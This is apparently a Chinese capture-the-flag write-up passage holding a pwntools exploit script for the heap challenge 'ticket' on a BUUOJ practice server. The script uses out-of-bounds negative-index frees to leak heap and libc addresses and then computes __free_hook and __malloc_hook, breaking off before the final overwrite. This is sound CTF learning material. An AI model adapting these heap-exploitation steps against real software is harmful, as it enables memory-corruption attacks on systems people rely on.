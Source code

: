 ### <a class="reference-link" name="wp"></a>wp

比赛的时候官方悄悄换了附件，痛失3血。

```
from pwn import *
import LibcSearcher
context.log_level = 'debug'
sa = lambda s,n : sh.sendafter(s,n)
sla = lambda s,n : sh.sendlineafter(s,n)
sl = lambda s : sh.sendline(s)
sd = lambda s : sh.send(s)
rc = lambda n : sh.recv(n)
ru = lambda s : sh.recvuntil(s)
ti = lambda : sh.interactive()

def add(idx,size):
    sla('&gt;&gt; ','1')
    sla('Index:',str(idx))
    sla('size:',str(size))
def edit(idx,con):
    sla('&gt;&gt; ','3')
    sla('Index:',str(idx))
    sla('remarks:',con)
def delete(idx):
    sla('&gt;&gt; ','2')
    sla('Index:',str(idx))
def show(idx):
    sla('&gt;&gt; ','4')
    sla('Index:',str(idx))
def change_info(name,con,age):
    sla('&gt;&gt; ','5')
    sla('name: ',name)
    sla('fei): ',con)
    sla('age: ',str(age))
def show_info():
    sla('&gt;&gt; ','6')
#sh = process('./ticket')
sh = remote('node3.buuoj.cn',26857)
libc = ELF('./libc-2.23.so')
elf = ELF('./ticket')
sla('name: ','name')
sla('fei): ','con')
sla('age: ',str(0x602058))
add(0,0x20)
add(1,0x60)
add(2,0xf8)
add(3,0xf8)
add(4,0xf8)
delete(0)
delete(-2)
show_info()
ru('Name: ')
heap_addr = u64(rc(4).ljust(8,'\x00')) &amp; 0xfffffff
print hex(heap_addr)
change_info('a','a',heap_addr+0xb0)
#gdb.attach(sh)

delete(-3)
show(2)
libc_base = u64(ru('\x7f')[-6:].ljust(8,'\x00'))-88-0x3c4b20
free_hook = libc_base + libc.sym['__free_hook']
malloc_hook  = libc_base + libc.sym['__malloc_hook']
realloc = libc_base + libc.sym['realloc']
```